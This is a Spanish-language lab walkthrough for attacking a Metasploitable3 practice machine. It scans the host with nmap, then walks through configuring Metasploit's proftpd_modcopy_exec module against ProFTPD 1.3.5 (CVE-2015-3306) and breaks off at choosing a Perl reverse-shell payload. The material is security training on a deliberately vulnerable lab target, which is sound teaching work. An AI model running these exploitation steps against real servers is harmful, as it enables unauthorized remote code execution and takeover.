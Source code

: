 # Atacar la máquina Metasploitable3.

## Ejercicio 1: Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Como ya hemos visto, ***nmap*** es la herramienta estrella para descubrir los servicios presente en una víctima que resida en la misma red local que el atacante. Almacenamos la IP de Metasploitable en una variable de entorno por comodidad.
```
IP_VICTIMA=192.168.20.13
```

Procedemos a realizar un nmap de todos los puertos en la víctima. El parámetro ***-sV*** sondea los puertos abiertos para determinar la versión de cada servicio. Conocer la versión es importante para determinar si existen vulnerabilidades que se puedan implementar. (Nota: Tardará bastante tiempo. Tener paciencia)
```
nmap -sV $IP_VICTIMA -p 0-65535
```

El resultado debe ser similar al siguiente. Observar como el rectángulo rojo marca que se ha detectado la aplicación ***ProFTPD 1.3.5***. También comprobar cómo el rectángulo azul indica que hay un servidor web presente en el puerto ***80***.

![ProFTPD 1.3.5](../img/180820221102.png)

Localizamos información sobre vulnerabilidades en ***CVE Details*** y encontramos que existe una de ***nivel 10***: https://www.cvedetails.com/cve/CVE-2015-3306/. Abrir el link y estudiarlo detenidamente.

En la parte inferior de la página puede observar que se dice que ***No hay ningún módulo de Metasploit relacionado con esta entrada CVE***, pero eso no es correcto, como veremos a continuación.

Una búsqueda un poco más detenida demuestra que Metasploit sí que puede explotar la vunerabilidad presente en ***ProFTP 1.3.5***: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

Como puede leerse en la documentación, el módulo ***proftpd_modcopy_exec*** de Metasploit, se aprovecha de la vulnerabilidad presente en la implementación del comando ***SITE CPFR/CPTO*** de ***ProFTPD***. Cualquier cliente (de FTP) no autenticado (No hace falta conocer credenciales) puede aprovecharse para copiar archivos en ***cualquier carpeta*** del sistema de archivos de la víctima. Los comandos de copia se ejecutan con los derechos (identidad) del servicio ProFTP, que por defecto corre bajo los privilegios del usuario ***nobody***. Mediante el uso de ***/proc/self/cmdline*** es posible subir a la víctima un archivo php que implemente una shell inversa, mediante el cual podemos tomar el control de la víctima.


Cargamos la consola de ***Metasploit*** si no estuviera iniciada.
```
msfconsole
```

Cargamos el módulo del exploit.
```
use exploit/unix/ftp/proftpd_modcopy_exec
```

Mostramos las opciones de configuración.
```
show options
```

La salida será la siguiente.
![Opciones del módulo](../img/180820221143.png)

Las configuraciones que debemos proporcionar son:

* *RHOSTS*: Obligatoria. Debemos poner la IP de la victima, que en nuestro escenario será ***192.168.20.13***.
* *RPORT*: Obligatoria. Una vez subido el payload PHP, el ataque se produce por medio de una Request HTTP. De esta forma, para que el ataque funcione, se necesita un servidor web en la víctima. Este hecho ha sido comprobado en el ejercicio anterior. Como puedes comprobar, no es necesario cambiar este valor (***80***), porque es el puerto correcto donde el servidor ***Apache*** está sirviendo peticiones.
* *RPORT_FTP*: Obligatoria. Este ataque necesita la presencia del servidor ***ProFTPD 1.3.5***, que como hemos comprobado anteriormente, está presente y escuchando en el puerto ***21***, por lo que no es necesario cambiar este ajuste.
* *SITEPATH*: Obligatoria. Es la ruta del directorio raíz del servidor web. En ***Apache*** es ***/var/www/html***. La configuración por defecto que puedes ver es ***/var/www***, que no coincide, por lo que debemos cambiarla a ***/var/www/html***. ***/proc/self/cmdline*** copiará en este directorio el payload php.
* *TARGETURI*: Obligatoria. Es la URI a la que se conectará el exploit. En ella se espera encontrar el payload php que será llamado por la Request HTTP.
* *TMPPATH*: El exploit no funciona copiando directamente el payload php a la carpeta ***/var/www/html***, si no que lo copia primero a una carpeta temporal y luego, desde ésta al directorio ***html***. Por lo tanto, la configuración debe tener una carpeta en la que no existan problemas de permisos. La candidata ideal es ***/tmp***, así que no modificamos esta configuración.

Mostramos los ***targets***, que en ***Metasploit*** son los servicios vulnerables.
```
show targets
```

La salida muestra que el único objetivo posible es ***ProFTP*** en su versión ***1.3.5***.

![show targets](../img/180820221222.png)

Ninguna otra versión de esta aplicación presenta la vulnerabilidad, por lo que una simple actualización de la misma cerraría la vulnerabilidad.

Configuramos el módulo para el ataque.
```
set RHOST 192.168.20.13
```
```
set SITEPATH /var/www/html
```

Comprobamos que todas las opciones requeridas (***RHOSTS***, ***RPORT***, ***RPORT_FTP***, ***SITEPATH***, ***TARGETURI*** y ***TMPPATH***) tienen valor.
```
show options
```

Mostramos los ***Payloads*** compatibles con este ataque:
```
show payloads
```

La salida mostrará lo siguiente.

![show payloads](../img/180820221239.png)

Debemos elegir un tipo de payload que pueda ejecutarse en la víctima. En la mayoría de los sistemas Linux se encuentra instalado ***Python*** y ***Perl***. Sería cuestión de ir probando si no se está seguro. En ***Metasplitable3*** están instalados todos.

Seleccionamos el payload
```
set payload payload/cmd/unix/reverse_perl
```







